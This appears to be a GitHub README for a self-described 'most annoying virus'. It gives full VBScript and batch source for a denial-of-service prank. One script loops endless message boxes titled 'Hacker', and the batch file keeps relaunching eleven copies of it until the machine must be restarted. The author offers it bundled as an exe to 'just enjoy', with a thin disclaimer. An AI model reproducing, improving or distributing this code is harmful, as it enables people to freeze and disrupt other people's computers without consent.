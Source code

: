 # Unlimited Error Message With Mouse Pointer Lock
This Is A Most Annoying Virus Created By Me (OCEAN IOF ANYTHING). In This Repositry You Will Get Fill Code Of It.
<br>
This Virus Is A Very Annoying Virus To Me. Because It Locks Mouse Pointer In One PLace.
## Only The Way To Stop The Virus Is Restarting The System
# Just Excute The Exe File To Activate The Virus.
I Binded Those 11 Files Into 1 Exe File. Just Enjoy.
# Codes

# error.vbs -|- You Can Copy And Rename Those Files INto error2,error6 etc.
```vbs
do
x=MsgBox("Hello everyone!",65,"Hacker")
loop
```
# error.bat
```bat
@echo off
:loop
start error.vbs
start error1.vbs
start error2.vbs
start error3.vbs
start error4.vbs
start error5.vbs
start error6.vbs
start error7.vbs
start error8.vbs
start error9.vbs
start error10.vbs
start error.vbs
start error1.vbs
start error2.vbs
start error3.vbs
start error4.vbs
start error5.vbs
start error6.vbs
start error7.vbs
start error8.vbs
start error9.vbs
start error10.vbs
goto loop
```



# Disclaimer

This Is A Virus, Not A Toy. So Dont Mess With It. Do Not Try On Any Responsible Hardware. Try In Your Own Respoc I Am Not Responsible Of Any Misuse Of It.



